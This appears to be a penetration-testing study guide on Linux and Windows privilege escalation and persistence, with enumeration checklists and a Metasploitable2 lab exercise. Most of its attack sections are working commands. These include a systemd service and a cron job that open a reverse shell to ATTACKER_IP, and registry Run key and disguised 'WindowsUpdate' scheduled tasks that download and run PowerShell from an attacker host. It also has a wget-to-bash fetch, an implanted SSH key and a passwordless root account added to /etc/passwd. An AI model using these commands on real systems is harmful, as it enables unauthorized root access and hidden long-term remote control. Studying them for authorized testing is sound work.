


---
# Privilege Escalation and Persistence
---

## Overview

Privilege Escalation refers to gaining higher-level permissions (e.g., user → root/administrator), while Persistence ensures long-term access to a compromised system. These techniques are critical in post-exploitation phases of a VAPT engagement.

Key focus areas:
- Linux and Windows privilege escalation
- Enumeration methodologies (HackTricks)
- Persistence mechanisms (Offensive Security PWK)
- Living-off-the-Land techniques (LOLBAS)

---

## Complete Enumeration Checklists

### **Linux Enumeration (HackTricks - Enhanced)**

```bash
# === User & Group Enumeration ===
whoami; id; groups; sudo -l 2>/dev/null                        # Current user privileges
cat /etc/passwd | cut -d: -f1                                  # All users
getent group sudo                                              # Sudo group members
cat /etc/group | grep -E "(sudo|wheel|admin)"                  # Admin groups

# === SUID/SGID Binaries (GTFOBins Privesc Vectors) ===
find / -perm -4000 -type f 2>/dev/null                         # SUID
find / -perm -2000 -type f 2>/dev/null                         # SGID  
find / -perm -u=s -o -perm -g=s 2>/dev/null                    # Combined

# === Capabilities (Alternative Privesc) ===
getcap -r / 2>/dev/null | grep -v "=0"                         # Capabilities with perms
capsh --print                                                  # Current process caps

# === Cron Jobs & Scheduled Tasks ===
ls -laR /etc/cron* /var/spool/cron/crontabs/ 2>/dev/null       # Cron directories
cat /etc/crontab /etc/cron.d/* 2>/dev/null                     # Cron contents
systemctl list-timers --all                                    # Systemd timers

# === Sudo & PATH Exploitation ===
sudo -l -U $(whoami)                                           # Detailed sudo perms
echo $PATH                                                     # PATH hijacking vector
sudo visudo -c                                                 # Sudoers syntax check (writable?)

# === Writable System Files (Config Manipulation) ===
find /etc -writable 2>/dev/null | grep -E "(passwd|shadow|sudoers|crontab)"  # Critical writable configs
find / -writable -type f 2>/dev/null | head -20                # Top writable files

# === NFS Shares (Root Squad Attacks) ===
showmount -e localhost                                         # Local NFS
showmount -e 2>/dev/null | grep -v "Export list"               # Remote NFS exports

# === Environment & Process Enumeration ===
env | grep -i pass                                             # Password leaks
ps aux | grep -v grep $(whoami)                                # User processes
lsof -u $(whoami)                                              # Open files

# === Docker/LXD/Container Escapes ===
docker ps; docker images                                       # Docker containers/images
lxc-ls -f                                                      # LXD (if in lxd group)
```

### **Windows Enumeration (PWK - Enhanced)**

```powershell
# === Current User & Token Privileges ===
whoami /all /priv                                              # Detailed privileges (SeImpersonate?)
whoami /groups /priv                                           # Group memberships

# === Services (Unquoted Paths + Weak Perms) ===
wmic service get name,displayname,pathname,startmode | findstr /i "Auto" | findstr /i /v "C:\\Windows\\\\"  # Auto services unquoted paths
Get-Service | Where-Object {$_.StartType -eq "Auto"} | Select Name,DisplayName,Status  # PowerShell services
sc qc <service_name>                                           # Service binary path/permissions

# === Scheduled Tasks (Persistence Vectors) ===
schtasks /query /fo LIST /v | findstr TaskName                 # All scheduled tasks
Get-ScheduledTask | Where-Object {$_.State -eq "Ready"} | Select TaskName,TaskPath,State  # Ready tasks

# === Registry Autoruns & Permissions ===
reg query HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run    # HKLM autoruns
reg query HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\Run    # HKCU autoruns  
reg query "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon" /v AutoAdminLogon  # Auto login

# === Installed Software (DLL Hijacking Vectors) ===
wmic product get name,version | findstr /v "Microsoft\|Windows"  # Installed programs
Get-WmiObject -Class Win32_Product | Select Name,Version,Vendor # PowerShell version

# === Network Shares & Permissions ===
net share                                                       # Accessible shares
net view \\<target>                                             # Remote shares
Get-SmbShare                                                    # PowerShell shares

# === AlwaysInstallElevated (MSI Privesc) ===
reg query HKCU\Software\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated  # HKCU MSI
reg query HKLM\Software\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated  # HKLM MSI

# === Token & Process Enumeration ===
Get-Process | Where-Object {$_.Path -like "*\AppData*"}         # Suspicious AppData processes
tasklist /svc                                                   # Services per process

# === Advanced: SeImpersonatePrivilege Check ===
whoami /priv | findstr SeImpersonatePrivilege                   # PrintSpoofer/JuicyPotato
```

**Usage Instructions:**
```
# Linux: Copy to enum.sh → chmod +x → ./enum.sh > enum.txt
# Windows: Copy to enum.ps1 → powershell -ep bypass -f enum.ps1 > enum.txt
# Pipe to grep: ./enum.sh | grep -i "(sudo\|root\|password)"
```

**Key Privesc Indicators Highlighted:**
- **Linux**: SUID count >10, writable /etc/passwd/shadow, lxd group membership
- **Windows**: SeImpersonatePrivilege enabled, unquoted service paths, AlwaysInstallElevated=1

**Pro Tip**: Run **both** automated (LinPEAS/WinPEAS) + manual enumeration. Cross-reference findings for chaining opportunities. [github](https://github.com/rizemon/OSCP-PWK-Notes/blob/main/windowsprivesc.md)

---

## Linux Privilege Escalation Techniques

### SUID Binaries (GTFOBins)

```bash
find / -perm -u=s -type f 2>/dev/null
````

Example exploitation:

```bash
/usr/bin/python2.7 -c 'import pty;pty.spawn("/bin/bash")'
```

---

### Capabilities

```bash
getcap -r / 2>/dev/null
```

Example:

* `cap_sys_admin` → full control over system resources

---

### Cron Job Exploitation

```bash
ls -la /etc/cron* /var/spool/cron/crontabs/
cat /etc/crontab
```

If writable:

```bash
echo "* * * * * root /tmp/shell.sh" >> /etc/crontab
```

---

### PATH Hijacking

```bash
echo $PATH
```

Exploit:

* Place malicious binary earlier in PATH

---

### Sudo Misconfiguration

```bash
sudo -l
```

Exploit:

```bash
sudo python -c 'import pty;pty.spawn("/bin/sh")'
```

---

### Writable /etc/passwd

```bash
echo 'root2::0:0:root:/root:/bin/bash' >> /etc/passwd
```

---

### LD_PRELOAD Injection

```bash
sudo LD_PRELOAD=/tmp/exploit.so program
```

---

### LXD/LXC Breakout

* Add user to LXD group
* Mount host filesystem
* Escape container

---

## Windows Privilege Escalation Techniques

### Unquoted Service Paths

```cmd
wmic service get name,displayname,pathname,startmode
```

---

### AlwaysInstallElevated

```cmd
msiexec /a malicious.msi
```

---

### Token Impersonation (SeImpersonatePrivilege)

```cmd
whoami /priv
```

Exploit:

```cmd
PrintSpoofer.exe -i -c "powershell.exe"
```

---

### Weak Service Permissions

* Modify service binary path
* Restart service

---

### Kerberoasting (Rubeus)

* Extract service tickets
* Crack offline

---

### PSExec Execution

* Remote command execution with admin credentials

---

## Privilege Escalation Attack Chain



---

## Persistence Mechanisms

### Linux Persistence (PWK)

#### Cron Job (@reboot)

```bash
echo "@reboot /tmp/backdoor.sh" | crontab -
```

---

#### Systemd Service

```bash
cat > /etc/systemd/system/persist.service << EOF
[Unit]
Description=Persistence
After=network.target
[Service]
ExecStart=/bin/bash -c 'bash -i >& /dev/tcp/ATTACKER_IP/4444 0>&1'
Restart=always
[Install]
WantedBy=multi-user.target
EOF

systemctl enable persist.service
```

---

### Windows Persistence (PWK)

#### Registry Run Key

```powershell
reg add "HKCU\Software\Microsoft\Windows\CurrentVersion\Run" /v Backdoor /t REG_SZ /d "powershell.exe -w hidden -c IEX(New-Object Net.WebClient).DownloadString('http://ATTACKER/rev.ps1')"
```

---

#### Scheduled Task

```powershell
schtasks /create /tn "WindowsUpdate" /tr "powershell.exe -w hidden -ep bypass -c IEX((New-Object Net.WebClient).DownloadString('http://ATTACKER/shell.ps1'))" /sc onlogon /ru SYSTEM /f
```

---

#### Service Creation

```cmd
sc create backdoor binPath= "cmd.exe /c reverse_shell"
```

---

#### WMI Persistence

```cmd
wmic /NAMESPACE:\\root\subscription PATH __EventFilter CREATE Name=PentestFilter
```

---

## Persistence Matrix

| Platform | Technique       | Detection Difficulty | Stealth |
| -------- | --------------- | -------------------- | ------- |
| Linux    | Cron Job        | Low                  | Medium  |
| Linux    | systemd Service | Medium               | High    |
| Linux    | LD_PRELOAD      | High                 | High    |
| Windows  | Registry Run    | Low                  | Medium  |
| Windows  | Scheduled Task  | Medium               | High    |
| Windows  | WMI Events      | High                 | High    |

---

## Living-off-the-Land Techniques (LOLBAS)

### Linux Native

```bash
echo "ssh-rsa ATTACKER_KEY" >> ~/.ssh/authorized_keys
```

```bash
wget -q -O- http://ATTACKER/shell.sh | bash
```

---

### Windows Native

```powershell
powershell.exe -nop -exec bypass -c "IEX(New-Object Net.WebClient).DownloadString('http://ATTACKER/shell.ps1')"
```

---

## Privesc Exploit Templates

### Linux

```bash
/usr/bin/python -c 'import os;os.setuid(0);os.execl("/bin/sh","sh")'
```

---

### Windows

```cmd
PrintSpoofer.exe -i -c "cmd /c powershell.exe"
```

---

## Attack Chain Diagram



---

## Lab Exercise

### Target

* Metasploitable2

### Steps

1. Gain initial access (FTP or web exploit)
2. Run enumeration commands
3. Exploit SUID or sudo misconfiguration
4. Gain root shell
5. Add persistence (cron/systemd)
6. Document findings

---

## Key Takeaways

* Enumeration is the most critical step in privilege escalation
* Misconfigurations are more common than kernel exploits
* Persistence ensures long-term access
* Living-off-the-Land techniques increase stealth
* Real-world attacks combine multiple escalation paths

---


